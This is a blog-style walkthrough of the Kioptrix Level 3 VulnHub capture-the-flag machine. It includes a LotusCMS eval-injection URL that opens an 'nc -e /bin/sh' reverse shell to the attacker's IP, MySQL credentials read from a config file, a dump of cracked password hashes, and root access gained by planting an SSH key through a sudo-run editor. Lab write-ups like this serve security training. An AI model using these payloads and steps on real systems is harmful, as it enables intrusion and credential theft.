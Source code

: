 ```yaml
---
layout: post
title: Kioptrix Level 3 CTF Walkthrough
date: 2017-08-02
categories:
  - security
  - ctf
  - walkthrough
tags:
  - kioptrix
  - vulnhub
---
```

## Exploiting the Web Server
Running Nmap (`nmap -sS -sV -Pn -T4 -vv 192.168.22.131`) showed that only two services seemed to be exposed on this machine (SSH and Apache), so I jumped straight in to looking at the web server.

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 00:0C:29:B4:4B:F7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I started by poking around for potential injection points. The URL of the home page looked as if it may be susceptible to LFI, as the page name being specified seemed to be the name of a file (i.e. `?page=index`).

I tried a few different payloads, and when including a single quotation mark to see if anything was being drawn from the database, I retrieved a PHP syntax error that mentioned [eval'd](http://php.net/manual/en/function.eval.php) code.

After a bit of looking around the few pages initially available, including the login screen, I was able to confirm the CMS Software in use, which was Lotus. A quick search on Exploit-DB also confirmed that the eval issue I found was definitely exploitable (https://www.exploit-db.com/exploits/18565/).

With this vulnerability confirmed, I started up ncat on my machine (`ncat -l -n -v -p 5555`) and then visited `http://kioptrix3.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%20192.168.22.129%205555%27)};%23` to initialise the reverse shell; which ran in the context of the `www-data` account:

```shell_session
root@kali:~# ncat -l -n -v -p 5555
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 192.168.22.131.
Ncat: Connection from 192.168.22.131:58112.
whoami
www-data
```

## Reconnaissance
The first thing I noticed was that I could read the contents of the `loneferret` account's home directory. Checking this out revealed a `CompanyPolicy.README` file, which contained the contents:

```
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

For the time being, this wasn't of any use, as the `www-data` account had no sudo privileges.

Running `uname -a` and `cat /etc/lsb-release` confirmed that the box is running Ubuntu 8.04.3 and that the kernel is version 2.6.24-24. With this information in mind, I tried a few different exploits which should affect this version (the sock_sendpage and the raptor vulnerabilities), however, none were successfully executed.

With kernel exploits not going so well, I rewinded back a bit and headed over to the root folder for `kioptrix3.com` and then grep'd the folder for `localhost`, in an attempt to find the file that is making the connection to MySQL.

```shell_session
www-data@Kioptrix3:/home/www/kioptrix3.com$ grep "localhost" ./ -R
grep "localhost" ./ -R
grep: ./gallery/scopbin/911006.php.save: Permission denied
./gallery/gconfig.php:	$GLOBALS["gallarific_mysql_server"] = "localhost";
www-data@Kioptrix3:/home/www/kioptrix3.com$
```

Looking inside the file found by grep (`gallery/gconfig.php`) revealed the credentials of the root MySQL user:

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

With these credentials, I was able to login to MySQL and retrieve the hashes of  two users (`dreg` and `loneferret`) which were reversible to their plain text counter parts (`Mast3r` and `starwars`):

```shell_session
www-data@Kioptrix3:/home/www/kioptrix3.com$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| gallery            |
| mysql              |
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql>

```

## Getting Root
The password found for the `loneferret` user in the MySQL database was shared across the same account on the system; allowing me to switch to that user:

```shell_session
www-data@Kioptrix3:/home/www/kioptrix3.com$ su loneferret
su loneferret
Password: starwars

loneferret@Kioptrix3:/home/www/kioptrix3.com$
```

With the message from earlier in mind, regarding the use of the `ht` binary (an interactive text editor), I [upgraded to a fully interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) and ran the binary, using `sudo -u root /usr/local/bin/ht`.

As the program was running as `root`, I was able to edit any file on the system. So, I proceeded to create a new file containing a public SSH key, and saved it to `/root/.ssh/authorized_keys`:

![ht](/assets/images/kioptrix-level-3-ctf-walkthrough/ht.png)

**Note: if you're not sure how to navigate HT, hold the Alt key and use the highlighted letters / numbers on screen; e.g. Alt + F opens the File menu.**

With my public key now placed in root's `authorized_keys`, I was able to SSH in as `root` and read the flag file:

```shell_session
root@kali:~# ssh -i ./id_rsa root@192.168.22.131
Last login: Mon Apr 18 11:29:13 2011
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
root@Kioptrix3:~#
```
